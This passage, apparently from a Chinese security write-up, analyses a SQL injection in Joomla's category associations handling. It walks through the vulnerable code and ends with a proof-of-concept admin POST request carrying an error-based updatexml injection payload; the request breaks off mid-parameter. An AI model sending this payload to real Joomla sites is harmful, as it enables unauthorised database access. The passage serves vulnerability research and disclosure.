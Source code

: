 

[![](https://p2.ssl.qhimg.com/t01fb4cf93b3adcc816.png)](https://p2.ssl.qhimg.com/t01fb4cf93b3adcc816.png)       <br>

        然后，继续看代码，$associations = $data['associations'];， $data是post过来的数据，associations没有经过过滤就传到了SQL语句中：

<br>

```
$query = $db-&gt;getQuery(true)
                -&gt;delete('#__associations')
                -&gt;where($db-&gt;quoteName('context') . ' = ' . $db-&gt;quote($this-&gt;as
                sociationsContext))
                -&gt;where($db-&gt;quoteName('id') . ' IN (' . implode(',', $associati
                ons) . ')');
```



导致SQL注入。

<br>

       那 Joomla 有没有全局过滤呢？我们看看 Joomla 是如何处理POST数据的。

<br>

       在 libraries/legacy/controller/form.php , save() 函数，

<br>

```
public function save($key = null, $urlVar = null)`{`
    ...
    $data  = $this-&gt;input-&gt;post-&gt;get('jform', array(), 'array');
    ...
    $validData = $model-&gt;validate($form, $data);
```



validate() 函数在 libraries/legacy/model/form.php 302行, 他又调用了libraries/joomla/form/form.php 的filter() 函数，具体实现就不继续了，总之这里的POST参数只是处理了 ' XSS and specified bad code. '。



       最后，构造POC。在修改分类，保存的时候，修改POST数据:

<br>

```
POST /Joomla/administrator/index.php?option=com_categories&amp;extension=com_content
&amp;layout=edit&amp;id=19
 
jform[title]=Joomla!&amp;jform[alias]=joomla&amp;jform[description]=&amp;jform[parent_id]=14
&amp;jform[published]=1&amp;jform[access]=1&amp;jform[language]=*&amp;jform[note]=&amp;jform[version
_note]=&amp;jform[created_time]=2011-01-01+00:00:01&amp;jform[created_user_id]=945&amp;jform
[modified_time]=2015-12-23+08:09:46&amp;jform[modified_user_id]=945&amp;jform[hits]=0&amp;jf
orm[id]=19&amp;jform[metadesc]=&amp;jform[metakey]=&amp;jform[metadata][author]=&amp;jform[metad
ata][robots]=&amp;jform[associations][en-GB]=2) or updatexml(1,concat(0x7e,(version(
))),0) -- -&amp;jform[rules][core.create][1]=&amp;jform[rules][core.delete][1]=&amp;jform[ru
les][core.edit][1]=&amp;jform[rules][core.edit.state][1]=&amp;jform[rules][core.edit.own
][1]=&amp;jform[rules][core.create][13]=&amp;jform[rules][core.delete][13]=&amp;jform[rules]
[core.edit][13]=&amp;jform[rules][core.edit.state][13]=&amp;jform[rules][core.edit.own][
13]=&amp;jform[rules][core.create][6]=&amp;jform[rules][core.delete][6]=&amp;jform[rules][co
re.edit][6]=&amp;jform[rules][core.edit.state][6]=&amp;jform[rules][core.edit.own][6]=&amp;j
form[rules][core.create][7]=&amp;jform[rules][core.delete][7]=&amp;jform[rules][core.edi
t][7]=&amp;jform[rules][core.edit.state][7]=&amp;jform[rules][core.edit.own][7]=&amp;jform[r
ules][core.create][2]=&amp;jform[rules][core.delete][2]=&amp;jform[rules][core.edit][2]=
&amp;jform[rules][core.edit.state][2]=&amp;jform[rules][core.edit.own][2]=&amp;jform[rules][
core.create][3]=&amp;jform[rules][core.delete][3]=&amp;jform[rules][core.edit][3]=&amp;jform
[rules][core.edit.state][3]=&amp;jform[rules][core.edit.own][3]=&amp;jform[rules][core.c
```